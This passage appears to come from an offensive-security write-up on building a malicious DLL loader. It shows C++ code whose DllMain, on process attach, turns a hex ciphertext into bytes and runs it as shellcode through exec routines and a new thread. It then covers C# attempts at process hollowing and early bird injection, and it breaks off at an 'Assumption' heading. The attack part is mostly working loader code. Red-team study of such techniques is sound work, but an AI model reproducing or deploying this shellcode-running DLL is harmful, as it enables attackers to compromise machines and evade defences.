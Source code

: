 ```cpp

	// Convert the payload hex string to bytes
	payload = hex_to_byte_string(ciphertext);

	// Execute the payload locally
	execute_shellcode((LPSTR)payload.c_str(), payload.length());
}

// DllMain
// ------------------------------------------------------------------------

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
	HANDLE threadHandle;
	DWORD dwThread;

	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		exec();
		// Init Code here
	    threadHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)go, hinstDLL, 0, NULL);
        CloseHandle(threadHandle);
        exec2();
		break;

	case DLL_THREAD_ATTACH:
		// Thread-specific init code here
		break;

	case DLL_THREAD_DETACH:
		// Thread-specific cleanup code here
		break;

	case DLL_PROCESS_DETACH:
		// Cleanup code here
		break;
	}

	// The return value is used for successful DLL_PROCESS_ATTACH
	return TRUE;
}
```

## Attempt: Csharp

Two variations of a payload were attempted- one, using the [UnmanagedExports](https://www.nuget.org/packages/UnmanagedExports), another using [DllExport](https://github.com/3F/DllExport). Mainly, trying to export `DllMain` or `Start`, or anything useful, really. Csharp was selected to quickly attempt process hollowing & early bird techniques for runners previously written in c#. 

### Assumption
